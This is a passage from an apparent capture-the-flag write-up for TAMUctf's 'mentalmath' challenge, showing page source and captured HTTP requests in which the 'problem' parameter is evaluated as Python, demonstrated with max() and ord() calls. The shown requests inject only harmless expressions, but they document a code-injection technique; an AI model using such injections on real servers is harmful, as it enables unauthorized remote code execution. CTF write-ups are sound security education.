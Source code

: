 ```
    });
  }

$(document).ready(function() {
  $("#answer").on('input', submitProblem);
  submitProblem();
});
</script>


    </div>
  </body>
</html>
```

That comment (wrongly) suggested me that the vulnerability could have been related to a SSTI with *Jinja2* template engine (i.e. Python backend).

The remote endpoint allows you to submit a math `problem` and its `answer`.

```
POST /ajax/new_problem HTTP/1.1
Host: mentalmath.tamuctf.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:74.0) Gecko/20100101 Firefox/74.0
Accept: */*
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 41
Origin: http://mentalmath.tamuctf.com
Connection: close
Referer: http://mentalmath.tamuctf.com/play/

problem=max%281%2C%203%2C%202%29&answer=3

HTTP/1.1 200 OK
Server: nginx/1.16.1
Date: Fri, 20 Mar 2020 21:59:43 GMT
Content-Type: application/json
Content-Length: 39
Connection: close
X-Frame-Options: SAMEORIGIN

{"correct": true, "problem": "37 - 83"}
```

I don't know why, but I didn't think that it was a generic RCE via Python, even when I discovered that I could inject and execute `ord()` function (duh).

```
POST /ajax/new_problem HTTP/1.1
Host: mentalmath.tamuctf.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:74.0) Gecko/20100101 Firefox/74.0
Accept: */*
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 34
Origin: http://mentalmath.tamuctf.com
Connection: close
Referer: http://mentalmath.tamuctf.com/play/

problem=ord%28%27a%27%29&answer=97

```